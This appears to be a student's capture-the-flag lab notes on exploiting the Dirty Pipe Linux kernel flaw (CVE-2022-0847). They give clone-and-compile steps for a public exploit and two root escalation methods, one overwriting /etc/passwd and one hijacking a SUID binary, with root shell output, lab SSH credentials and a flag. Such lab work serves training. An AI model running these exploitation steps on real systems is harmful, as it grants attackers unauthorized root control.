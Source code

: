 # Dirty Pipe

A vulnerability in the Linux kernel, named Dirty Pipe (CVE-2022-0847), allows unauthorized writing to root user files on Linux.

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847

--> Similar to DirtyCow

All kernels from version 5.8 to 5.17 are affected and vulnerable to this vulnerability.

Android phones are also affected.

## Verify Kernel Version
uname -r

5.13.0-46-generic


## Download Dirty Pipe Exploit

git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh

## Exploitation

./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id

uid=0(root) gid=0(root) groups=0(root)

## 2nd way of exploitation

### Find SUID binairies

find / -perm -4000 2>/dev/null

/usr/bin/sudo

### Exploit

./exploit-2 /usr/bin/sudo

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

\# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(cry0l1t3)

## LAB

ssh htb-student@10.129.204.55
HTB_@cademy_stdnt!

git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh

ls
compile.sh  exploit-1  exploit-1.c  exploit-2  exploit-2.c  README.md
cd ..
scp -r CVE-2022-0847-DirtyPipe-Exploits htb-student@10.129.204.55:/home/htb-student/

htb-student@ubuntu:~$ ls
CVE-2022-0847-DirtyPipe-Exploits
htb-student@ubuntu:~$ cd CVE-2022-0847-DirtyPipe-Exploits/

./exploit-1
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
system() function call seems to have failed :(

find / -perm -4000 2>/dev/null

/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/sudo
...

./exploit-2 /usr/bin/sudo
cat /root/flag.txt
HTB{D1rTy_DiR7Y}